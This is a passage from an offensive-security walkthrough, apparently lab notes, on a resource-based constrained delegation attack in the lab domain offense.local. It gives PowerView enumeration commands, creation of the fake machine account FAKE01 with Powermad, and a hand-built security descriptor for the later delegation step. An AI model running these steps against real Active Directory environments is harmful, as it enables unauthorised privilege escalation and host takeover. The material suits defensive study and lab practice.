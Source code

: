 ```csharp
Get-DomainObject -Identity "dc=offense,dc=local" -Domain offense.local
```

![](<../../.gitbook/assets/Screenshot from 2019-03-26 20-49-58.png>)

The attack also requires the DC to be running at least Windows 2012, so let's check if we're in the right environment:

```csharp
Get-DomainController
```

![](<../../.gitbook/assets/Screenshot from 2019-03-26 20-56-15.png>)

Last thing to check - the target computer `WS01` object must not have the attribute `msds-allowedtoactonbehalfofotheridentity` set:

```
Get-NetComputer ws01 | Select-Object -Property name, msds-allowedtoactonbehalfofotheridentity
```

![](<../../.gitbook/assets/Screenshot from 2019-03-26 21-03-32.png>)

This is the attribute the above command is referring to:

![](<../../.gitbook/assets/Screenshot from 2019-03-26 21-08-47.png>)

## Creating a new Computer Object

Let's now create a new computer object for our computer `FAKE01` (as referenced earlier in the requirements table) - this is the computer that will be trusted by our target computer `WS01` later on:

```csharp
import-module powermad
New-MachineAccount -MachineAccount FAKE01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```

![](<../../.gitbook/assets/Screenshot from 2019-03-26 21-30-46.png>)

Checking if the computer got created and noting its SID:

```csharp
Get-DomainComputer fake01
# computer SID: S-1-5-21-2552734371-813931464-1050690807-1154
```

![](<../../.gitbook/assets/Screenshot from 2019-03-28 22-25-11.png>)

Create a new raw security descriptor for the `FAKE01` computer principal:

```csharp
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-2552734371-813931464-1050690807-1154)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
```
